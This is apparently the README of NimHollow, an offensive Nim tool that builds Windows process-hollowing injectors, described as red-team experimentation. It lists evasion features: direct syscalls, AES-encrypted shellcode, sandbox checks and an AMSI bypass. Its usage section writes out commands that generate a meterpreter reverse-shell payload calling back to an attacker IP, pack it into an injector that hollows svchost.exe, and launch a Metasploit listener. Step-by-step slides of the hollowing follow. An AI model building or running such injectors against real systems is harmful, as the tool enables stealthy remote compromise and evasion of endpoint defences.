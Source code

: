 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* Simple sandbox detection methods from the OSEP course by @offensive-security.
* AMSI patching with @rasta-mouse's [method](https://rastamouse.me/memory-patching-amsi-bypass/) is also inside (uncomment it for your needs).

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ sudo apt install upx -y
~$ pip3 install -r requirements.txt
```

Example:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.13.37 LPORT=31337 EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\svchost.exe' -o injector --upx --rm
~$ file injector.exe
injector.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
~$ sudo msfconsole -qr msf.rc
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

1\. Create the target process (e.g., `svchost.exe`) in a suspended state.

![](https://user-images.githubusercontent.com/23141800/132571935-07adfa73-f33d-4c37-b21c-7f8534699a8d.png)

2\. Query created process to extract its base address pointer from PEB (**P**rocess **E**nvironment **B**lock).

![](https://user-images.githubusercontent.com/23141800/132571944-de967c1f-1518-4d91-a4d6-4d63120017d7.png)

3\. Read 8 bytes of memory (for 64-bit architecture) pointed by the image base address *pointer* in order to get the actual value of the image base address.

![](https://user-images.githubusercontent.com/23141800/132571951-fb9b08b4-b6ab-4ae9-9387-e6f316fd4500.png)

4\. Read 200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](https://user-images.githubusercontent.com/23141800/132571964-588c830e-de06-4b09-a708-b32c4150a17c.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](https://user-images.githubusercontent.com/23141800/132572990-cee11f80-59d4-4fd2-a7f7-245805554b35.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) project.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).
